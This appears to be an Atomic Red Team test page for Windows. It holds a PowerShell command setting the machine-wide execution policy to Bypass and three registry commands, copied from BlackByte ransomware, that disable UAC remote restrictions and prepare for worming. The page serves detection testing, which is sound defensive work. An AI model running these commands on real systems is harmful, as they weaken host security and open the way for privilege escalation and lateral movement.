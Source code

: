 



#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| default_execution_policy | Specify the default poweshell execution policy | string | Default|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-ExecutionPolicy -ExecutionPolicy Bypass -Scope LocalMachine
```

#### Cleanup Commands:
```powershell
try { Set-ExecutionPolicy -ExecutionPolicy #{default_execution_policy} -Scope LocalMachine -Force } catch {}
```





<br/>
<br/>

## Atomic Test #8 - BlackByte Ransomware Registry Changes - CMD
This task recreates the steps taken by BlackByte ransomware before it worms to other machines.  See "Preparing to Worm" section: https://redcanary.com/blog/blackbyte-ransomware/
The steps are as follows:
<ol>
    <li>1. Elevate Local Privilege by disabling UAC Remote Restrictions</li>
    <li>2. Enable OS to share network connections between different privilege levels</li>
    <li>3. Enable long path values for file paths, names, and namespaces to ensure encryption of all file names and paths</li>
</ol>
The registry keys and their respective values will be created upon successful execution.

**Supported Platforms:** Windows


**auto_generated_guid:** 4f4e2f9f-6209-4fcf-9b15-3b7455706f5b






#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLinkedConnections /t REG_DWORD /d 1 /f
cmd.exe /c reg add HKLM\SYSTEM\CurrentControlSet\Control\FileSystem /v LongPathsEnabled /t REG_DWORD /d 1 /f
```
